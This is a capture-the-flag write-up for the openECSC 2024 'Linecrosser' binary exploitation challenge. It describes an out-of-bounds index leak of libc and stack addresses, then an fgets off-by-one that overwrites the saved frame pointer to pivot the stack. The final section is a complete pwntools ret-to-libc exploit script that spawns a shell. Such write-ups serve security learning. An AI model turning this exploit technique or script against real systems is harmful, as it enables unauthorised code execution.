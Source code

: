 # Overview
Welcome to the thrilling tale of how a *seemingly insignificant* oversight led me on a wild ride through the world of stack pivoting with mathematical precision.

**Challenge:** [Linecrosser](https://open.ecsc2024.it/challenges#challenge-9) (openECSC 2024 round 1) 
**Attack Type:** Ret-to-libc, achieved by stack pivoting.
# Introduction
This challenge presents a modified "cards against hackers" game. The binary allocates two stack-based arrays in the main function and offers a four-option menu within its _main_loop_ function:

1. Play
2. Create custom card
3. Show custom card
4. Exit the game

Options 2 and 3 are relevant to the exploitation; let's examine their functionality.
# Data Leakage
The "Show custom card" option enables the user to view stored custom answers and prompts. After selecting answers (1) or prompts (2), the user provides an index number (an integer) that directly accesses the corresponding array, allocated in the main function, *without bounds checking*. 

The implementation differs for the answers and prompts arrays:

- **Answers:** This array consists of `char*` elements. Leaking meaningful data is difficult here, as we would need a valid pointer to a memory region containing useful data.
- **Prompts:** Each even-numbered element (`n`) is a `char*` (the prompt), while the subsequent odd-numbered element (`n+1`) is an `unsigned long long` (completion count). This structure simplifies data leakage; we can use any index containing a valid pointer (`n`) followed by the data we wish to exfiltrate (`n+1`).

By strategically indexing the prompts array, we can leak crucial information:

- **Index 42:** Provides a pointer to `libc_start_main`.
- **Index -3:** Leaks a stack address.
# Vulnerability
The "create custom card" function contains a buffer overflow vulnerability. When creating a custom prompt, the fgets function allows the user to input up to 1025 bytes into a 1000-byte buffer. This overflow can be exploited to overwrite the least significant byte of the saved frame pointer on the stack.

- **fgets behavior:** The `fgets` function reads a maximum of `n-1` bytes (where `n` is the buffer size) and appends a null terminator. In this case, with an input of 1024 bytes, the null terminator overwrites the least significant byte of the saved frame pointer.
- **Frame pointer Significance:** the saved frame pointer stores the base pointer for the previous function's stack frame. In this instance, the vulnerability directly impacts the stack frame of the `main_loop` function. 
# Exploitation

## The Strategy

With the information we’ve gathered, our exploitation strategy is as follows:

1. **Leak the libc base address:** By exploiting the `create custom card` function.
   We can get the libc the binary is using from the docker container.
3. **Call the `Create custom card` function:** Next, we call the Create custom card function. This is where we will insert our payload to execute a shell.
4. **Exploit the fgets behavior:** We exploit the behavior of the fgets function to overwrite the last byte of the saved frame pointer. We do this by inputting 1024 bytes, causing the null terminator to overwrite the least significant byte of the saved frame pointer.
5. **Return to `main_loop`:** Once the saved frame pointer has been overwritten, the function will return to `main_loop`. However, because the saved frame pointer has been changed, the stack frame of `main_loop` will be corrupted.
6. **Execute our ROP chain:** With the stack frame of `main_loop` broken, we want this function to return as soon as possible and execute our ROP chain. This will allow us to gain control over the program and execute our payload.
## The Execution

There are two main challenges we need to tackle to execute our plan:

1. **Randomness**: overwriting the last byte of the saved frame pointer will result in the stack frame of the main function shifting by a different offset each program execution. The corrupted frame pointer will always point inside our buffer, but we don’t know exactly where. 
   This is generally not a significant issue since we can fill our buffer with `ret` instructions and place the payload to execute a shell at the end of it. As long as the execution starts inside one of the `ret` instructions, our payload will be executed for sure.
2. **Returning from the `main_loop` function:** This function returns in two cases: when the player has made 20 choices or if a specific variable on the stack is set to 0. 

The former would be the easiest to exploit, as we could play 19 times and then send the payload on the 20th turn. **However**, in the heat of the competition, I completely overlooked this and opted for the second, and *much more challenging*, option.

Why is the second option more challenging?

The variable that needs to be set to 0 is right before the frame pointer. This means that the `ret slide` strategy is not usable. We need to precisely craft our payload so that the ROP chain ends up right after where RBP will point to. This complicates things significantly since we need to leak not only a libc address but also a stack address and calculate what the saved frame pointer is, and what exactly we are overwriting.

# The code
```python
#!/usr/bin/env python3
from pwn import *
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
exe = ELF("./linecrosser_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.binary = exe

gdb_script = '''
'''
def conn():
    if args.LOCAL:
        r = process([exe.path], aslr = True)
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript = gdb_script, aslr = True)
    else:
        r = remote("linecrosser.challs.open.ecsc2024.it", 38002)
    return r

def c_card(io, data):
    io.sendline(b'2')
    io.sendline(b'2')
    io.sendline(data)
    io.sendline(b'69420')

def show(io,num):
    io.sendline(b'3')
    io.sendline(b'2')
    io.sendline(num)

def main():
    io = conn()

    #leak libc
    show(io, b'42')
    io.recvuntil(b"Prompt (")
    LIBC_LEAK = int(io.recvuntil(b" completions)").split(b' ')[0])
    libc.address = LIBC_LEAK -171584
    log.critical(f'LIBC: leak {hex(LIBC_LEAK)} | base: {hex(libc.address)}')

    #leak stack
    show(io, b'-3')
    io.recvuntil(b"Prompt (")
    STACK_LEAK = int(io.recvuntil(b" completions)").split(b' ')[0])
    RBP = STACK_LEAK - 272
    log.critical(f'Saved RBP: {hex(RBP)} | Stack leak: {hex(STACK_LEAK)}')
    
    #calculate stack frame offset
    hex_rbp = hex(RBP)
    rbp_off = hex_rbp[-2:]
    log.critical(f'rbp_offset: 0x{rbp_off}')
    rbp_off = int(rbp_off, 16) -56 
    #rbp offset tells us how much the RBP pointer will move upwords from the saved RBP

    #creating the rop chain
    rop = ROP(libc)
    BINSH = libc.search(b'/bin/sh').__next__()
    POP_RDI = rop.find_gadget(['pop rdi', 'ret']).address
    RET = rop.find_gadget(['ret']).address
    SYSTEM = libc.sym["system"]
    EXIT = libc.sym["exit"]

    chain = p64(RET)+ p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

    #padding the payload
    log.info(f'rop chain len: {hex(len(chain))}')
    payload =  chain.ljust(rbp_off, b'S')  
    payload = payload.rjust(0x400, b'\00')
    c_card(io, payload)
    io.interactive()

if __name__ == "__main__":
    main()

```